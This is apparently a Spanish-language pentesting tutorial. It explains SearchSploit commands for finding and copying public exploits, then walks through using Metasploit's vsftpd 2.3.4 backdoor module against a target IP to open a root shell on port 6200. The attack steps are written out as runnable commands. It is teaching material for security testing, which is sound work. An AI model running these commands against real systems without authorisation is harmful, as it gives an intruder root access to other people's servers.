 # Uso de SearchSploit y explotación de vulnerabilidades (Ejemplo: vsftpd 2.3.4)

## 1. ¿Qué es SearchSploit?
SearchSploit es una herramienta de línea de comandos incluida en **Exploit-DB** que permite buscar, consultar y copiar localmente exploits y PoCs (Proof of Concept) disponibles en la base de datos.

Es muy útil en **pentesting** para identificar exploits públicos relacionados con servicios o versiones específicas detectadas durante el reconocimiento.

## 2. Comandos básicos

### Buscar un exploit
```bash
searchsploit <nombre_servicio> <versión>
```
Ejemplo:
```bash
searchsploit vsftpd 2.3.4
```

### Mostrar detalles completos (path local y URL online)
```bash
searchsploit -w <nombre_servicio>
```

### Mostrar solo el path local en tu sistema
```bash
searchsploit -p <nombre_servicio>
```

### Copiar un exploit localmente
```bash
searchsploit -m <ID_o_path>
```
Ejemplo:
```bash
searchsploit -m 49757
```
Esto copiará el exploit desde la base de datos local a tu directorio actual.

### Buscar exploits con coincidencia exacta
```bash
searchsploit -e <palabra_clave>
```

### Actualizar la base de datos de SearchSploit
```bash
searchsploit -u
```

## 3. Caso práctico: vsftpd 2.3.4

### Paso 1: Búsqueda del exploit
```bash
searchsploit vsftpd 2.3.4
```
Salida esperada:
```
vsftpd 2.3.4 - Backdoor Command Execution  | unix/remote/17491.rb
```

### Paso 2: Copiar el exploit a tu directorio
```bash
searchsploit -m 17491
```
Esto te dejará un archivo Ruby (`.rb`) que es un módulo para Metasploit.


## 4. Explotando vsftpd 2.3.4 con Metasploit

### Paso 1: Abrir Metasploit
```bash
msfconsole
```

### Paso 2: Cargar el módulo del exploit
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

### Paso 3: Configurar el objetivo
```bash
set RHOSTS <IP_objetivo>
set RPORT 21
```

### Paso 4: Ejecutar el exploit
```bash
exploit
```
Si es vulnerable, el exploit abrirá una shell en el puerto backdoor (generalmente 6200) y obtendrás acceso como root.



